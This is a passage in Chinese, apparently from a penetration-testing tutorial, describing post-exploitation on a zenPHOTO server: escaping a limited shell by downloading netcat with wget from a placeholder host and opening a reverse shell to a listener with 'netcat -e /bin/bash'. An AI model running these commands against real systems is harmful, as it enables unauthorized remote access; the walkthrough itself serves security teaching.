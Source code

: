 2.  zenPHOTO 已经有一个公共漏洞在运行，我们可以通过一个有限的 shell 访问该漏洞：

![](img/71dccab9-1325-45e2-a316-cfc79f2add44.png)

3.  由于这是一个有限的 shell，我们尝试通过先在系统上上传`netcat`，然后使用`netcat`获得反向连接，来摆脱它并获得反向连接：

```
 wget x.x.x.x/netcat –o /tmp/netcat
```

![](img/97b42970-b8ee-49ba-b65b-0227a40cc547.png)

4.  现在，我们可以使用以下命令进行反向连接：

```
 netcat <our IP > -e /bin/bash <port number>
```

![](img/0a0a6460-ac7c-438d-a887-d2fa62a4247a.png)

5.  查看我们的终端窗口，在那里设置了侦听器，我们将看到一个成功的连接：

```
 nc –lnvp <port number>
```
